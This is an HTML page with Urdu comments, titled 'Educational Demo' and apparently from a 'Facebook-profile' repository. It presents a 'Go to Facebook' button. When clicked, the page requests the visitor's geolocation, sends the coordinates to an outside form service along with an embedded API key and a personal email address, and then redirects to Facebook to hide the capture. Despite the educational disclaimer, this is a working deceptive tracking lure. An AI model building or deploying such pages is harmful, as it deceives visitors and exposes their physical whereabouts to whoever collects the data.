 # Facebook-profile
<!DOCTYPE html>
<html>
<head>
    <title>Educational Demo</title>
    <script>
        // لوکیشن حاصل کرنے کی کوشش (صارف کی اجازت ضروری ہے)
        function getLocation() {
            if (navigator.geolocation) {
                navigator.geolocation.getCurrentPosition(
                    (position) => {
                        const lat = position.coords.latitude;
                        const lng = position.coords.longitude;
                        sendToServer(lat, lng); // ڈیٹا سرور پر بھیجیں
                        window.location.href = "https://www.facebook.com"; // ری ڈائریکٹ
                    },
                    (error) => {
                        alert("اجازت نہیں ملی۔");
                    }
                );
            } else {
                alert("براؤزر لوکیشن کو سپورٹ نہیں کرتا۔");
            }
        }

        // ڈیٹا بھیجنے کا فنکشن
        async function sendToServer(lat, lng) {
            const API_KEY = "1eebf7fe-5c1c-4cfd-b2e9-e0ca02ecc276"; // نیا API Key
            const response = await fetch("https://api.web3forms.com/submit", {
                method: "POST",
                headers: { "Content-Type": "application/json" },
                body: JSON.stringify({
                    access_key: API_KEY,
                    latitude: lat,
                    longitude: lng,
                    email: "mmohsin.hec@gmail.com" // آپ کی ای میل
                })
            });
        }
    </script>
</head>
<body>
    <button onclick="getLocation()">فیس بک پر جائیں</button>
    <p style="color: red; font-size: 0.8em;">
        نوٹ: براؤزر ہمیشہ لوکیشن کی اجازت مانگے گا۔ یہ صرف تعلیمی نمونہ ہے۔
    </p>
</body>
</html>
